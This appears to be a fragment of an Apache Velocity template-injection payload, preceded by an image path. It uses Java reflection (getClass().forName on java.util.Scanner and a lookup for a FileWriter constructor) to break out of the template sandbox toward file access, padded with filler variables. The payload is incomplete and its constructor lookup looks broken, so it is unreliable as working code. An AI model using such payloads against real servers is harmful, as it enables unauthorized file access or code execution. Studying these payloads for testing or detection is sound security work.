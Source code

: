 #set( $monkey = '888888888888888888888888=========99999999999999999999999' )
$monkey
#set ($e="exp")
#set($sc = $e.getClass().forName("java.util.Scanner"))
#set($constructor = $sc.getDeclaredConstructor($e.getClass().forName("java.io.FileWriter")))
$monkey
"bbb"

